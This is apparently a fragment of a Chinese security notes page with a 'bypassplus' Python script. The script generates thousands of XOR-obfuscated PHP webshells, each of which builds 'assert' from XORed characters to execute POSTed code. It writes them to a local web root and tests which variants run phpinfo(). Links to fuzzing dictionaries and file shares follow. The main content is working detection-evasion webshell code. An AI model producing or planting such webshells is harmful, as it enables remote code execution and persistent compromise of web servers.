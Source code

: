 

#### bypassplus脚本

多进程—莫名速度好垃（不知道为什么好慢！哈哈）

```python
import queue

import requests
import time
import threading

def xor_shell_check():
    while not q.empty():
        filename = q.get()
        url = 'http://127.0.0.1/test/' + filename
        data = {
            'x': 'phpinfo();'
        }
        result = requests.post(url, data=data).content.decode('utf-8')
        if 'DESKTOP-1CDDLPV' in result:
            print('check->' + filename + '->ok')
        else:
            print('check->' + filename + '->no')
        time.sleep(1)



if __name__ == '__main__':
    q=queue.Queue()
    for i in range(0, 128):
        for j in range(0, 128):
            payload = "'" + chr(i) + "'" + "^" + "'" + chr(j) + "'"
            shell = "<?php $a=(" + payload + ").'ssert';$a($_POST[x]);?>"
            # print(shell)
            filename = str(i) + 'xor' + str(j) + '.php'
            q.put(filename)
            with open('E:/phpstudy/PHPTutorial/WWW/test/' + filename, 'a') as f:
                f.write(shell)
                print(filename + '写入成功')
                f.close()
    for x in range(10):
        t = threading.Thread(target=xor_shell_check)
        t.start()
```



# 涉及资源：

[quickeasyftpserver.zip](https://lcba.lanzouy.com/iAMePxl378h)

[https://github.com/zhanye/fuzzdb](https://github.com/zhanye/fuzzdb)
[https://github.com/stemmm/fuzzDicts](https://github.com/stemmm/fuzzDicts)
[https://www.cnblogs.com/liujizhou/p/11806497.html](https://www.cnblogs.com/liujizhou/p/11806497.html)
[python ftplib模块 ](https://www.cnblogs.com/kaituorensheng/p/4480512.html)
[https://blog.csdn.net/qq_41617034/article/details/104441032](https://blog.csdn.net/qq_41617034/article/details/104441032)
[https://pan.baidu.com/s/13y3U6jX3WUYmnfKnXT8abQ 提取码：
xiao](https://pan.baidu.com/s/13y3U6jX3WUYmnfKnXT8abQ 提取码：
xiao)